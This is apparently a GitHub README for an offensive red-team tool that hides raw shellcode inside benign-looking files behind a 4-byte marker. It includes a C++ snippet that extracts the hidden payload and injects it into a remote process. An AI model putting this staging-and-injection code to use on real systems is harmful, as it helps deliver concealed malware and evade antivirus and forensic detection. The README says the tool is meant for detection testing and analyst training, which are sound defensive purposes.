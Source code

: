 # PhantomLdr

![Status](https://img.shields.io/badge/status-stable-green?style=flat-square)
![Python](https://img.shields.io/badge/python-3.x-blue?style=flat-square)

**PhantomLdr** is a binary stager tool designed for red team operators and malware analysts. It embeds raw shellcode into benign-looking files using a 4-byte marker, simulating payload delivery and file manipulation techniques observed in advanced persistent threats (APT).

> ⚠️ **Disclaimer:** This tool is for **educational and authorized security research only**. Use it in **isolated environments** or during **authorized penetration testing engagements**. The developer assumes no responsibility for misuse.

---

## 🎯 Use Case

PhantomLdr is ideal for:

- Red Team payload staging simulations
- Malware evasion and forensic evasion research
- Detection rule testing (EDR, AV, YARA)
- Malware reverse engineering training labs

---

## ✨ Features

- Embeds arbitrary shellcode into any non-sensitive file
- Avoids tampering with sensitive/critical extensions (e.g., `.exe`, `.dll`)
- Custom 4-byte ASCII marker for locating payload in post-processing

---

## ⚙️ Requirements

- Python 3.x
- [pyfiglet](https://pypi.org/project/pyfiglet/)

Install dependencies:

```bash
pip install pyfiglet
```

## How to implement on Visual studio

```cpp
std::vector<char> extractShellcode(const char* data, size_t size, const char* marker = "Z3R0") {
	if (!marker || strlen(marker) != 4) {
		return {};
	}

	for (size_t i = 0; i < size - 8; ++i) {
		if (data[i] == marker[0] &&
			data[i + 1] == marker[1] &&
			data[i + 2] == marker[2] &&
			data[i + 3] == marker[3]) {

			uint32_t len = *(uint32_t*)&data[i + 4];

			if (i + 8 + len > size) {
				return {};
			}

			return std::vector<char>(data + i + 8, data + i + 8 + len);
		}
	}

	return {};
}

std::vector<char> buffer = extractShellcode(data, size, marker);
NtWriteVirtualMemory(pi.hProcess, remoteAddr, buffer.data(), buffer.size(), NULL);
```
